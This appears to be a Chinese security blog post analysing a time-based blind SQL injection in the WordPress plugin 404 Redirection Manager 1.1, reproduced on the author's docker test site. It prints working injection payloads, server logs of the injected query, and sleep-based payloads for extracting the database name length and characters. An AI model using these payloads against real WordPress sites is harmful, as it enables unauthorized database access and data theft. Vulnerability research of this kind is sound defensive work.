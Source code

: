 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache
数据库类型：MySQL
数据库版本：5.7.15 
数据库客户端版本：libmysql - 5.5.52
PHP扩展:mysqli 
PHP版本：5.6.26-0+deb8u1
phpMyAdmin版本信息：4.4.14
WordPress版本：4.3.6

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>(这里多了一个<code>'</code>),借助后台日志，我尝试着找到了这段注入执行的语句。

<pre><code>
[Thu Dec 22 06:55:20.702722 2016] [:error] [pid 187] [client 10.10.79.136:43543]WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code></pre>

执行的语句是这样的：

<code>select * from $table_name where enabled=1 and cat='link' and blog='" . get_current_blog_id() . "' and regex<>'' and $permalink_regex_options order by LENGTH(regex) desc </code>

<code>$permalink_regex_options</code>指向了<code>('$permalink' regexp regex or '$permalink_alternative'  regexp regex )</code>。

<code>$permalink</code> 和 <code>$permalink_alternative</code> 则分别指向了 <code>get_permalink()</code>，<code>get_alternative_permalink()</code>这两个获取固定链接的函数。

综上，可以整理出完整在数据库中执行的语句：

<code>
select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc
</code>

可以发现，这里<code>sleep</code>执行了两次，执行的时间应该在10秒以上。跑一下，成功了，时间也没问题。
![pic]()

这样只算是验证了这个漏洞，那看看如何再将这个poc更加深层次的利用。

在拿到目标数据库名字之前，需要知道这个数据库名多长，MySQL数据库的名字最长为64。

构造下面的注入语句：

<code>')
AND (SELECT * FROM (SELECT(SLEEP(5-(IF(LENGTH(database())>32,0,5)))))abc) AND ('SQL'='SQL</code>

这里使用二分法来解决问题，每次将数字减半。就上面的语句来说，如果回显时间大于10则认定数据库长度在64和32之间，否则就取16和32这个区间，以此类推，即可推导出数据库名的长度。

接下来就是爆库名了，通常数据库的命名都是由字母与下划线组成，这样的话可以用和上面相似的思路去爆破。
大小写和下划线的ascii码在64和123区间内，取中间值然后再逐个判断。

<code>')
AND (SELECT * FROM (SELECT(SLEEP(5-(IF(ascii(substr((select database()),X,1))>Y,0,5)))))abc) AND ('SQL'='SQL</code>

这里的X就是字母的位数，Y则是字母的ascii码，每次判断成功则X+1。












